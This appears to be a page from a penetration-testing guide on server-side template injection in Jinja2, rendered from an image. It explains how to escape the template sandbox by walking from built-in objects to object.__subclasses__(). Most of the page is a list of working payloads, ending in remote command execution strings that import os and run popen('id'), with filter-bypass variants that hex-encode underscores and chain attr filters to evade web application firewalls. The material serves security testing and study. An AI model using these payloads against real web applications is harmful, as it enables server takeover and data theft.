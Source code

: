 **Resources**:
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

## Accessing Global Objects

For example, in the code `render_template("hello.html", username=username, email=email)` the objects username and email come from the non-sanboxed python env and will be accessible inside the sandboxed env.

****Moreover, there are other objects that will be always accessible from the sandboxed env, these are:

```
[]
''
()
dict
config
request
```

## Recovering `<class 'object'>`

Then, from these objects we need to get to the class: `<class 'object'>` in order to try to recover defined classes. This is because from this object we can call the `__subclasses__` method and access all the classes from the non-sandboxed python env.  


In order to access that object class, you need to access a class object and then access either `__base__`, `__mro__()[-1]` or `.mro()[-1]`. And then, after reaching this object class we call `__subclasses__()`.

```
# To access a class object

[].__class__
''.__class__
()["__class__"] # You can also access attributes like this
request["__class__"]
config.__class__
dict #It's already a class

# From a class to access the class "object". 
## "dict" used as example from the previous list:

dict.__base__
dict["__base__"]
dict.mro()[-1]
dict.__mro__[-1]
(dict|attr("__mro__"))[-1]
(dict|attr("\x5f\x5fmro\x5f\x5f"))[-1]

# From the "object" class call __subclasses__()

{{ dict.__base__.__subclasses__() }}
{{ dict.mro()[-1].__subclasses__() }}
{{ (dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))() }}

{% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}

# Other examples using these ways

{{ ().__class__.__base__.__subclasses__() }}
{{ [].__class__.__mro__[-1].__subclasses__() }}
{{ ((""|attr("__class__")|attr("__mro__"))[-1]|attr("__subclasses__"))() }}
{{ request.__class__.mro()[-1].__subclasses__() }}
{% with a = config.__class__.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}


# Not sure if this will work, but I saw it somewhere

{{ [].class.base.subclasses() }}
{{ ''.class.mro()[1].subclasses() }}

I initially built the following payload for remote command execution, and will now try and apply as many filter bypasses as I can.

{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

If the waf blocks ".": {{request['application']['__globals__']

['__builtins__']['__import__']('os')['popen']('id')['read']()}}

If the waf blocks "." and "_": {{request['application']

['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}

Bypassing the blocks on ".", "_", "[]" and "|join" makes the payload turn into this payload I made for PayloadAllTheThings (https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9), also found on my twitter (https://twitter.com/SecGus/status/1249744031392940033):

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}


```